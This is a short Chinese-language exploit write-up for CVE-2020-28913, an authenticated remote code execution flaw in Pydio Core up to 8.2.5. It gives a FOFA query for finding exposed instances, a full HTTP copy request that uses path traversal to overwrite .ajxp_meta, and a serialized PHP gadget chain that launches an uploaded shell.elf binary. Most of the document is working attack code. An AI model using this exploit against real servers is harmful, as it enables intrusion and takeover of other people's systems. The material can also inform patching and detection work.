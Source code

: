 # Pydio 网盘系统 RCE （CVE-2020-28913）

Pydio（以前称为AjaXplorer）是用于远程管理和共享文件的开源Web应用程序。

通过发送带有代码中使用的特殊HTTP变量但未在Web UI中公开的文件复制请求，攻击者可以覆盖.ajxp_meta文件。该.ajxp_meta文件写入到用户的目录序列化的PHP对象，当Pydio大概需要已存储的文件信息被反序列化。

**PS：需要登录**

影响版本：Pydio Core <= 8.2.5

FOFA:

```
title="Pydio" || icon_hash="-1115903764"
```

![](media/16096788331640/16096788547739.jpg)


**PoC:**

```bash
POST /pydio/index.php? HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://example.com/pydio/ws-my-files/
Content-type: application/x-www-form-urlencoded; charset=UTF-8
Origin: https://example.com
Content-Length: 124
Connection: close
Cookie: AjaXplorer=ak7jio5pphe6onko1gcofj05k4

get_action=copy&targetBaseName=../.ajxp_meta&dir=%2F&nodes[]=%2Fpayload&dest=%2F&secure_token=sG9TmYIkNsWTEEx5p5qLCHJcty0MfyQ3
```

以下PHP对象小工具将尝试运行已上传到用户目录的二进制文件shell.elf。通过将绝对路径传递到我们上传的shell二进制文件，我们确实对服务器上的路径进行了假设。在测试过程中，小工具中的位置是默认位置，没有特殊的Pydio配置。


```json
O:26:"GuzzleHttp\Stream\FnStream":1:{s:9:"_fn_close";a:2:{i:0;O:10:"Securimage":7:{s:13:"wordlist_file";s:62:"/usr/share/pydio/core/vendor/dapphp/securimage/words/words.txt";s:12:"captcha_type";i:2;s:13:"audio_use_sox";b:1;s:15:"sox_binary_path";s:56:"/var/lib/pydio/personal/atredis/shell.elf";s:13:"database_file";s:47:"/var/lib/pydio/personal/atredis/fdsa.db";s:12:"use_database";b:1;s:9:"namespace";s:4:"fdsa";}i:1;s:15:"outputAudioFile";}}
```

ref:https://www.atredis.com/blog/2020/11/12/authenticated-rce-in-pydio-forever-day